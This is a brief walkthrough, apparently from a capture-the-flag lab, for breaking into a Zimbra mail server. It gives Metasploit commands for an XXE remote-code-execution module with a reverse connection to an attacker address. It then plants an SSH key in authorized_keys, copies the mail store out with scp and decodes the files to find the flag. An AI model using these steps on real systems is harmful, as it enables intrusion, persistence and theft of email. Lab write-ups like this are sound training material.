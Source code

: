 # Mail Server

1. Address: `172.16.3.67`
2. Find vulnerability: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`

```shell
use exploit/linux/http/zimbra_xxe_rce
set RHOST 172.16.3.67
set RPORT 443

set LHOST 10.8.0.29
set LPORT 4747

# -j will run it as a JOB
run
```

> Attention: **Password: Zimbra2024**

4. Check SSH Keys (Create One, if needed)

```shell
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```

5. Set public Key:

```shell
echo "<your-pub-key>" > ~/.ssh/authorized_keys
  ```

6. Ssh into Server:

```shell
ssh -i ~/.ssh/id_rsa zimbra@172.16.3.67 -p 2200
```

7. Download Zimbra Data

```shell
scp -P 2200 -i ~/.ssh/id_rsa -r zimbra@172.16.3.67:/opt/zimbra/store/0 ./08-store0
```

8. Check Emails and Decode Files: `https://www.freeformatter.com/base64-encoder.html`
9. Flag: `MAZAPA_f7fcfe674431022cab7ae571058b1327`
